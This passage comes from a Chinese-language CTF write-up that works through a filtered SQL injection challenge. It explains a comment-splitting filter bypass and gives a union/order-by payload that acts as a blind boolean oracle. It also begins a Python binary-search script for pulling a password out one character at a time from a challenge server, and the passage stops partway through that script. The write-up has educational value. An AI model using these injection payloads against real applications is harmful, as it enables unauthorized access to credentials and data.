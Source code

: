 4.如法炮制，猜出 password 这个参数。

![](https://www.zhaoj.in/wp-content/uploads/2019/05/1558363895444187d29d2c26370e0cc6332ebede99-1024x682.png)

5.提示组织成员密码即为 flag。那么我们就来看看有没有注入能读出 flag 吧。

6.测试注入点。第二列为用户名列。猜测第三列为密码列。

![](https://www.zhaoj.in/wp-content/uploads/2019/05/1558365078fc3a90946c78d6176ec0bb461e6e5f2c-1024x475.png)

发现其屏蔽了很多东西，where，and，括号，等号，下划线都给屏蔽了。

7.尝试构造请求绕过验证，获取用户名 union_373_Tom。

![](https://www.zhaoj.in/wp-content/uploads/2019/05/1558365211e09aecb4c00c9b67b12b9c47cfb920f0-1024x462.png)

相当于 `select * from table_name where username="*/*' and password='*/"`

等效于 `select * from table_name where username="*"`

`="*"`就任意匹配了，自己找个表做个实验可以验证。

相当于 `select * from table_name`

8.拿到用户名之后，来看看能不能搞到密码。

多方测试后，payload 如下
```
username=union_373_Tom' union all select 1,2,'1' /*
&password=*/ order by 3,2,'1
```

解释一下，这里会查询到两条记录，一条是 union_373_Tom 的（下文用原条目表示），还有一条是我们 union 进去的 2 的（下文用新条目表示）。

后面的 order by 排序是关键，首先对第三列也就是我们猜测的密码列进行排序，默认是升序的，字典序小的在前面。程序返回的都是排第一个的条目。

所以有三种情况，

+   要是新条目第三列密码列（上文 payload 里为 &#8216;1&#8217;）字典序小于原条目第三列密码列，返回的就是新条目。
+   要是相等就继续跳到第二列比较，第二列数据都是已知的，必然是新条目在前面。
+   要是大于就返回原条目了。

![](https://www.zhaoj.in/wp-content/uploads/2019/05/1558367280d1a5e719820fe5473c7e6ccca6968a23-1024x634.png)

![](https://www.zhaoj.in/wp-content/uploads/2019/05/1558368239eb610b7f6ab74de9d5eb1ffa8b9e4720-1024x642.png)

构造了一个布尔条件，实现了我们可控的新条目的密码列与原条目密码列的字典序比较(小于等于)。

9.OK，那就说明我们可以构造请求，把原条目的密码给逐位跑出来了。

Python 脚本如下：
```
import binascii

import requests

url = "http://39.100.83.188:8054/"


def half(payload):
    low = 0
    high = 126
    while low <= high:
        mid = (low + high) / 2
        # 等效于 chr(int(mid)) <= chr(int(target))
        if http_get(payload + chr(int(mid))):
            low = mid + 1
        else:
            high = mid - 1
    mid_num = chr(int((low + high) / 2))
    return mid_num
```